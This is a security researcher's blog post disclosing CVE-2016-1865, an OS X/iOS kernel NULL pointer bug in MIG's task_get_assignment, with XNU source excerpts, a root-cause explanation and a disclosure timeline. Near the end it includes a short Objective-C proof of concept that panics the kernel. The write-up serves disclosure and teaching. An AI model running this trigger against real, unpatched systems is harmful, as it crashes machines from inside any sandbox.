 ```yaml
---
layout: post
title:  "[CVE-2016-1865] Some unexploitable but unsandboxable OS X/iOS Kernel NULL pointers"
date:   2016-07-18 13:00:00 +0800
categories: security apple cve
---
```


After examining [qwertyoruiop's][qwertyoruiop-twitter] [tpwn poc][qwertyoruiop-tpwn-github] and [presentation][qwertyoruiop-preso] I was wondering if Apple totally understood the root cause of that bug and if there were other similar issues.

It turned out that yes, there were other bugs.

One of them I found, which had maybe some chances of being exploitable on OS X without `SMAP`, was patched in `10.11.4`.
In this post I will discuss one of the other unexploitable null pointers I disclosed to Apple after the `10.11.4` release, because surprisingly even after 2 very similar bugs fixed, Apple failed to eliminate all of them.

Those bugs can be pretty annoying, since they can at least panic the kernel from any context and sandbox.

Unfortunately on OS X, unlike other Operating Systems, kernel NULL pointers are still a problem if your machine doesn't support `SMAP`, since the NULL page under certain circumtances can be mapped, and if the bug allows it (like Luca's tpwn kernel NULL pointer), it can be exploited.
Checkout Ian Beer's issues in the Project Zero tracker for additional details.

## MIG and IKOT_TASK:

Without going too much in details, since there are very good articles (from J Levin) onlines and books (the ones from Levin again and the one from Amit Singh), and as I mentioned, checkout Luca's presentation.
I will also take some shortcuts and use a more "free" language and try to explain the concepts instead of all the details, which you can eventually check in the code or in the mentioned references:

- MIG is a  OS X / iOS IPC "higher level facility" of interfaces built upon mach messages and mach ports used to communicate between tasks, including with the kernel.
- MIG systems exports a well defined interface of methods you can remotely invoke.
- Those methods have a signature and parameters types. Since only some "primitive" parameters are understood by the IPC system, some of them **must be validated and converted**. The root cause of the bug resides in this last statement.
- What's IKOT_TASK then? To understand this bug you just have to know that it's a "type" of mach port. They are all mach ports but there are different flavors depending on what they represent. For example if you call `mach_task_self()` you get back a port of kind "task" if you call `mach_thread_self()` you get back a port of kind "thread".

## One of the bugs

Take a look at this simple kernel method, which you can invoke from userspace with MIG like we said:

{% highlight c %}
/*
 *  task_get_assignment
 *
 *  Return name of processor set that task is assigned to.
 */
kern_return_t
task_get_assignment(
    task_t      task,
    processor_set_t *pset)
{
    if (!task->active)
        return(KERN_FAILURE);

    *pset = &pset0;

    return (KERN_SUCCESS);
}
{% endhighlight %}

Notice that the first parameter it's of type `task_t`.

This type is not a "primitive" type, in a MIG sense, so it has to be converted. You can see this in the MIG interface definition file `task.defs` with this procedure:

{% highlight c %}
/*
 *  Get current assignment for task.
 */
routine task_get_assignment(
        task        : task_t;
    out assigned_set    : processor_set_name_t);
{% endhighlight %}

`task_t` is defined in another `mach_types.defs` file with the conversion function to convert it from a `mach_port_t`:

{% highlight c %}
type task_t = mach_port_t
#if  KERNEL_SERVER
    intran: task_t convert_port_to_task(mach_port_t)
    outtran: mach_port_t convert_task_to_port(task_t)
    destructor: task_deallocate(task_t)
#endif   /* KERNEL_SERVER */
    ;
{% endhighlight %}

So we have to check the "intran" (translator function from the `mach_port_t` received to a `task_t`) function `convert_port_to_task(mach_port_t)`:

{% highlight c %}
/*
 *  Routine:    convert_port_to_task
 *  Purpose:
 *      Convert from a port to a task.
 *      Doesn't consume the port ref; produces a task ref,
 *      which may be null.
 *  Conditions:
 *      Nothing locked.
 */
task_t
convert_port_to_task(
    ipc_port_t      port)
{
    task_t      task = TASK_NULL;

    if (IP_VALID(port)) {
        ip_lock(port);

        if (    ip_active(port)                 &&
                ip_kotype(port) == IKOT_TASK        ) {
            task = (task_t)port->ip_kobject;
            assert(task != TASK_NULL);

            task_reference_internal(task);
        }

        ip_unlock(port);
    }

    return (task);
}
{% endhighlight %}

As you can see this function can potentially return a NULL pointer (`TASK_NULL`) if the mach_port we pass to it it's not of `IKOT_TASK`. Even the comment says it can return a NULL.

But read then again the `task_get_assignment` function. 
As you can see there is no check if the parameter is null or not, so if it's null we will crash in a read access from NULL page at: `if (!task->active)`.

The bug it's **totally useless**, but anyway I wanted to share this writeup to show to you that sometimes when a bug is fixed, other very similar bugs are still present in the code and unfixed. And also offers a quick tour of the MIG interface to the kernel.

## POC

{% highlight c %}
// gcc -o nptr2 nptr2.m -framework Foundation

#import <Foundation/Foundation.h>
#import <mach/task.h>

void trigger_null_ptr_deref2() {
    printf("[i] triggering...\n");
    processor_set_name_t pset;
    kern_return_t kr = task_get_assignment(mach_thread_self(), &pset);
    printf("[i] trigger returned 0x%x\n", kr);
}

int main(int argc, const char * argv[]) {
    @autoreleasepool {
        trigger_null_ptr_deref2();
    }
    return 0;
}

{% endhighlight %}

As you can see we pass to `task_get_assignment` a `mach_thread_self()` which is not `IKOT_TASK`, triggering the null pointer. 
The correct use (without the bug) of this API is to pass a `mach_task_self()` or another task port.

#### Timeline:
- **2016/3/23** The issues are reported to Apple via email at `product-security@apple.com` with 90 days responsible disclosure policy.
- **2016/5/27** Apple told me even if it's not fixed in 10.11.5, the fix it's scheduled for the next release, so holding public disclosure.
- **2016/7/17** CVE-2016-1865 is assigned and the fix is pushed in 10.11.6

#### Take aways:
- Sometimes vendors just fix the immediate problem and bug, and don't investigate carefully about the root cause and search for additional bugs that share the same pattern.


[qwertyoruiop-twitter]: https://twitter.com/qwertyoruiopz
[qwertyoruiop-tpwn-github]: https://github.com/kpwn/tpwn
[qwertyoruiop-preso]: https://www.blackhat.com/docs/eu-15/materials/eu-15-Todesco-Attacking-The-XNU-Kernal-In-El-Capitain.pdf
